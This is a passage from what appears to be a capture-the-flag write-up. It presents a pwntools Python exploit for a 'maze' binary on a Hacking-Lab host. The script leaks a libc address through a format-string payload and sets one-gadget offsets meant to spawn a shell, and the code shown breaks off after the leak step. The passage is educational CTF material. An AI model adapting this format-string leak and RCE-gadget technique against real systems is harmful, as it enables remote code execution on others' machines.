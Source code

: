 This is the final script which combined all the previous steps together to spawn a shell and switch to interactive mode to pass the control.

```python
from pwn import *
import re

remote_exploit = len(sys.argv) > 1 and sys.argv[1] == 'remote'

p = remote('whale.hacking-lab.com', 7331) if remote_exploit else process('./maze')

directions = [ 'north', 'east', 'south', 'west' ]

def right_of(current_dir):
    return directions[(directions.index(current_dir) + 1) % len(directions)]

def left_of(current_dir):
    return directions[(directions.index(current_dir) + len(directions) - 1) % len(directions)]

def find_libc_start_main_addr(instr_offset):
    # change name to string format pattern
    p.sendline('1')
    p.recvuntil('> ')
    p.sendline('%19$p')
    p.recvuntil('> ')

    # start the game
    p.sendline('3')
    p.recvuntil('> ')

    # run whoami command to read the libc address
    p.sendline('whoami')
    response = p.recvuntil('> ')
    libc_start_main_addr_with_instr_offset = re.search('(0x[0-9a-f]+)', response).group(1)

    # exit current game
    p.sendline('exit')
    p.recvuntil('> ')

    return int(libc_start_main_addr_with_instr_offset, 16) - instr_offset

def create_poisonous_key(found_key, target_addr):
    return found_key + p64(target_addr)

# read init
p.recvuntil('> ')

# set player name
p.sendline('pjslf')
p.recvuntil('> ')

if remote_exploit:
    # remote libc-2.23.so
    libc_start_main_instr_offset = 240
    libc_start_main_offset = 0x20740
    libc_rce_gadget_offset = 0x4526a
else:
    # local libc-2.28.so
    libc_start_main_instr_offset = 235
    libc_start_main_offset = 0x23fb0
    libc_rce_gadget_offset = 0x448a3

# find libc address
libc_start_main_addr = find_libc_start_main_addr(libc_start_main_instr_offset)
```